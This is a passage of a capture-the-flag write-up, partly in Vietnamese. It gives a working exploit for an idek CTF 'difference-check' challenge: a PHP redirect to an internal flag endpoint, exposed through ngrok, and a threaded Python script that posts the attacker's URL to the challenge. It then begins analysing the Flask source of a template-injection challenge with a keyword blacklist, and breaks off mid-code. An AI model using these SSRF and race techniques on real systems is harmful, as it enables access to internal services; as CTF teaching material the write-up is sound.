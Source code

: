 ### Payload
File `index.php`
```php
<?php
$temp = rand(0,1);
if ($temp == 1) {
    header("Location: http://localhost:1337/flag");
}
```
How to run:
+ `php -S 0.0.0.0:1234`
+ `ngrok http localhost:1234`

File `payload.py`
```py
import requests
from threading import Thread

chall_url = 'http://difference-check.chal.idek.team'
my_url = "http://fe27-14-243-53-28.ngrok.io"

def payload():
    data = {"url1": my_url, "url2": "http://google.com"}
    r = requests.post(chall_url+'/diff', data=data)
    print(r.text)

if __name__ == '__main__':
    for i in range(1,5):
        thread = Thread(target=payload)
        thread.start()
```
How to run:
+ `python3 payload.py | grep 'idek'`

Result:

![image](https://user-images.githubusercontent.com/54855855/146064487-d648ca81-27cf-4dda-95aa-b633201b0acf.png)

## Challenge Baby JinJail and jinjail
Lí do mình gộp 2 challenge này thành 1 bài để viết vì mình sử dụng 1 payload để solves cả 2 challenge này. Source của 2 bài cũng giống nhau chỉ khác 1 chỗ.

Giống như các bài có source khác, việc đầu tiên là đi phân tích source để biết chương trình làm gì, như vậy thì sẽ exploit hơn.

Phân tích source:
{% highlight python %}
{% raw %}
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if not request.form['q']:
            return render_template_string(error_page)

        if len(request.form) > 1:
            return render_template_string(error_page)

        query = request.form['q'].lower()
        if '{' in query and any([bad in query for bad in blacklist]):
            return render_template_string(error_page)

        page = \
            '''
        {{% extends "layout.html" %}}
        {{% block body %}}
        <center>
